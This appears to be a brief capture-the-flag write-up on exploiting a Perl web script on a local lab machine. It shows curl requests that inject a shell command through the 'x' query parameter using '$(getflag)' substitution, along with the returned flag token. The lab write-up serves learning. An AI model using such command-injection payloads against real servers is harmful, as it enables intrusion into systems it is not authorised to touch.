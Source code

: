 The goal here is to inject a shell command in the server.

First, I tried to inject a command in the "x" parameter from the Perl script :

``curl '10.0.2.15:4747?x=getflag'``

Instead of only send the ``getflag`` command, I asked to get the return value of this command throught the server execution :

``curl '10.0.2.15:4747/?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap``
